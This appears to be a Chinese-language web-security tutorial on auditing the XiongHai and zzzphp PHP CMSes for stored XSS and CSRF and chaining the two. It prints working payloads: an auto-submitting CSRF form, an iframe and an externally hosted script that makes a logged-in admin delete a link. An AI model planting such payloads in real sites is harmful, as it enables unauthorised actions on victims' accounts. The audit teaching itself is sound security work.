







# 0x00 XSS简介

XSS分为反射型和储存型，一般来说反射型的用处不是很大利用难度相对较高，存储型XSS一般常见于发布评论、留言、收获地址、个人信息等等。对于xss的审计我们一般就在这些点找，有用户控制输入信息输出的地方都是它出现的地方，很多网站的突破口可能就是一个XSS。


# 0x01 XSS实战审计

这次选用的CMS还是熊海，我们通过搭建环境查看输入的地方来审计，学习下高效率审计方式。



随意留言抓包看看他请求的url再去找相对的文件`/?r=submit&type=message` 当然你还是得看看他是怎么调用文件的，这里就是加载submit文件中的message方法。

我们来到 files/submit.php



前面的输入基本都没过过滤，到了最后一步`$content`被 `addslashes(strip_tags($content));`过滤，所以我们XSS其他地方即可，看到这里我们在挖洞的过程中所以不要纠结一点。



一般过滤xss的函数还有`htmlspecialchars`，我们审计他的注意点就是查看一些输出函数print、print_r、echo、printf、die、var_dump、var_export。

# 0x02 Csrf

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。
CSRF实际上就是利用你的身份去发送恶意请求，我们需要知道CSRF分为GET型提交的和POST，前者危害更大，后者一般可以寻找XSS来配合我们。GET型的比如一个链接 http://www.404.com/1.php?id=1 访问即可删除账号，然后你在论坛发帖构造
`` 那么访问这个帖子的人账号都将会删除，POST的见下文，造成CSRF的原因就是没有使用token或者验证其他值，审计就看页面有没有token、referer验证，验证是否可以绕过，不过我推荐还是先黑盒，看看有没有token，删除了referer是否能够访问，再结合代码来看。


我们来看到zzzphp的后台，他是没有token的，同时我们前面审计到了他的代码执行，配合这个csrf就可以直接getshell。



如果你不会自己写这个代码，不妨使用burp生成一个测试页面，右键选择即可。



这是个需要点击的表单,你可以加一段JavaScript代码来自动提交。

```
<script> document.forms[0].submit(); </script> 

```

# 0x03 组合利用

这里只是个简单的组合，由于没找到具体实验环境我只有简单的演示一下(懒)
本次选妃zzzphp，由于他后台没有的xss，我只能登陆后台后查看前台了。

1.构造CSRF表单自动提交
payload：
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
         //burp生成的表单
      <script> document.forms[0].submit(); </script> 

  </body>
</html>

```

2.插入iframe标签

payload：

```
<iframe src="http://404.com/zzzp6p/1.html" />
```
还可以使用XMLHTTPRequest发送POST、GET，按情况选择，这里把payload插入手机号码。



用登陆了后台后访问页面，可以看到显示修改成功。

由于没找到想要的源码我简单介绍下利用XMLHTTPRequest来发包,漏洞程序还是熊海cms删除一友情链接

payload 1.js：

```
function del() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET','/xiong/admin/?r=linklist&delete=6');
    xhr.send(null);
    }
del();

```
payload：

```
<script src="http://404.com/xiong/1.js"></script> 

```
查看留言板可以看到我们的XMLHTTPRequest已经发包了



比较典型的例子可以看看 https://xz.aliyun.com/t/3177